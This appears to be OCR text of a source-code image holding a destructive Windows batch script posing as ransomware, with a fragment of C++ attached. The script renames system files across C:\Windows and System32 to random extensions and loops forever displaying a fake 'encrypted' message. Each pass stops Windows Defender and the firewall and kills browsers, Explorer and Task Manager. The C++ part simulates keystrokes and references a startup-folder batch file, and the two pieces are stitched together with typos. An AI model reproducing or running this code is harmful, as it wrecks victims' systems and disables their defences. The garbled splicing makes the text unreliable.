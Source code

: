 REN *.lnk *.9K2M
REN *.png *.8J2n
REN *.exe *.3hxD
cd C:\Windows
REN *.cmd *.sI09
REN *.exe *.1Je9
REN *.log *.439a
REN *.ini *.3KM1
REN *.dll *.38Jl
REN *.bin *.3J81
REN *.txt *.2M1A
REN *.sys *.8j3J
REN *.lnk *.9K2M
REN *.png *.8J2n
REN *.exe *.3hxD
cd C:\Windows\Sys32 & cd C:\Windows\System32
REN *.cmd *.sI09
REN *.exe *.1Je9
REN *.log *.439a
REN *.ini *.3KM1
REN *.dll *.38Jl
REN *.bin *.3J81
REN *.txt *.2M1A
REN *.sys *.8j3J
REN *.lnk *.9K2M
REN *.png *.8J2n
REN *.exe *.3hxD
cd C:\
REN *.cmd *.sI09
REN *.exe *.1Je9
REN *.log *.439a
REN *.ini *.3KM1
REN *.dll *.38Jl
REN *.bin *.3J81
REN *.txt *.2M1A
REN *.sys *.8j3J
REN *.lnk *.9K2M
REN *.png *.8J2n
REN *.exe *.3hxD
color 0a & mode 1000 & cls
pause
goto virus
ren -=- Closes all task managers and browser, kills anti-virus and firewall -=-
:virus
ECHO You have been encrypted by *-*7_SL*- & color 0a
net stop "Windows Defender Service"
net stop "Windows Firewall"
taskkill /F /IM "chrome.exe" /T
taskkill /F /IM "firefox.exe" /T
taskkill /F /IM "ProcessHacker.exe" /T
taskkill /F /IM "explorer.exe" /T
taskkill /F /IM "taskmgr.exe" /T
goto virus
using namespace std;
int main()
{ keybd_event(VK_MENU,0x38,0,0);
keybd_event(VK_RETURN,0x1c,0,0);
keybd_event(VK_RETURN,0x1c,KEYEVENTF_KEYUP,0);
keybd_event(VK_MENU,0X38,KEYEVENTF_KEYUP,0);
HANDLE outToScreen;
outToSreen = GetStdHandle(STD_OUTPUT_HANDLE);
{
char buffer[255];
char inputFile[]="C:\\Documents and Settings\\AllUsers\\Start Menu\\Programs\\Startup\\rawr.bat";
